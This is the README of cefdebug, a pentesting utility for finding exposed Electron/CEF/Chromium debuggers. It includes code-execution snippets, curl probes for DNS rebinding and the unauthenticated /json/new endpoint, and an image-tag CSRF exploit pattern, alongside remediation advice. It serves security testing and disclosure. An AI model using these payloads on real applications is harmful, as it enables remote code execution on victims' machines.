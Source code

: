 # cefdebug

This is a minimal commandline utility and/or reference code for using
libwebsockets to connect to an electron/CEF/chromium debugger.

You're probably thinking, "who would enable the debugger in shipping products?".
Well, it turns out just about everyone shipping electron or CEF has made this
mistake at least once.

In some configurations, you can pop a shell remotely just by making a victim
click a link.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=773

In older versions, you could pop a shell remotely using DNS rebinding.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1742

In current versions, you can compromise other local users or escape sandboxes.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1944

It happens so often, that I thought pentesters might find it useful to have some
code easily available to interact with them.

# Usage

First, scan the local machine

```
$ ./cefdebug.exe
[2019/10/04 16:18:56:7288] U: There are 3 tcp sockets in state listen.
[2019/10/04 16:18:56:7766] U: There were 1 servers that appear to be CEF debuggers.
[2019/10/04 16:18:56:7816] U: ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
```

Now you can send commands to that `ws://` URL.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
[2019/10/04 16:35:06:2645] U: >>> process.version
[2019/10/04 16:35:06:2685] U: <<< v10.11.0
```

Alternatively, you can start a simple interactive shell.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
>>> ['hello', 'world'].join(' ')
[2019/10/04 16:36:31:0964] U: <<< hello world
>>> a = 1024
[2019/10/04 16:36:44:5250] U: <<< 1024
>>> a * 2
[2019/10/04 16:36:48:3005] U: <<< 2048
>>> quit
```

### Known Examples

Here are a list of code snippets I've seen that allow code exec in different electron
applications.

`process.mainModule.require('child_process').exec('calc')`

`window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")`

`require('child_process').spawnSync('calc.exe')`

`Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))`

### Notes
Here are things to test if you find a debugger.

* Does it prevent [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding)?

`$ curl -H 'Host: example.com' -si 'http://127.0.0.1:9234/json/list'`

🚨 If that works (i.e. json response), this is **remotely** exploitable. 🚨

Newer versions of chromium require that the Host header match `localhost` or an
IP address to prevent this. If this works, the application you're looking at is
based on an older version of chromium, and leaving the debugger enabled can be
**remotely** exploited. You have found a critical vulnerability and should
report it urgently.

* Is the `new` command functioning?

`$ curl -si 'http://127.0.0.1:9234/json/new?javascript:alert(1)'`

🔥🚨 If that works (i.e. a json response), this is **easily** **remotely** exploitable. 🚨🔥

This command requires no authentication, and has no CSRF protection. Just
`<img src=http://127.0.0.1:port/json/new?javascript:...>` in a website is
enough to exploit it. Even if the port is randomized, it can be brute forced
easily.

This is a very critical vulnerability, and should be reported urgently.

# Solution

If you maintain a CEF project and you've noticed you're vulnerable to this
attack, you probably need to change this setting in your `cef_settings_t`
for production builds:

https://magpcss.org/ceforum/apidocs3/projects/(default)/_cef_settings_t.html#remote_debugging_port

In electron, it's possible you're doing something like:

`app.commandLine.appendSwitch('remote-debugging-port'...)`

If you're using node, perhaps you're using `--inspect` on child processes.

https://nodejs.org/de/docs/guides/debugging-getting-started/#security-implications

# Building

## Windows 

> If you don't want to build it yourself, check out the [releases](https://github.com/taviso/ctftool/releases) tab

I used [GNU make](http://gnuwin32.sourceforge.net/packages/make.htm) and Visual
Studio 2019 to develop `cefdebug`. 

If all the dependencies are installed, just typing `make` in a developer command
prompt should be enough.

I use the "Build Tools" variant of Visual Studio, and the only components I have
selected are MSVC, MSBuild, CMake and the SDK.

This project uses submodules for some of the dependencies, be sure that you're
using a command like this to fetch all the required code.

```
git submodule update --init --recursive
```
## Linux

The main depdencies are libwebsockets and libreadline.

On Fedora, try:

`yum install readline-devel libwebsockets-devel openssl-devel`

If the dependencies are intalled, try `make -f GNUmakefile.linux`

## Embedding

The code is intended to be simple enough to embed in other pentesting tools.

# Authors

Tavis Ormandy <taviso@gmail.com>

# License

All original code is Apache 2.0, See LICENSE file for details.

The following components are imported third party projects.

* [wineditline](http://mingweditline.sourceforge.net/), by Paolo Tosco.
  * wineditline is used to implement user friendly command-line input and
    history editing.
* [libwebsockets](https://libwebsockets.org), by Andy Green et al.
  * libwebsockets is a portable c implementation of HTML5 websockets.
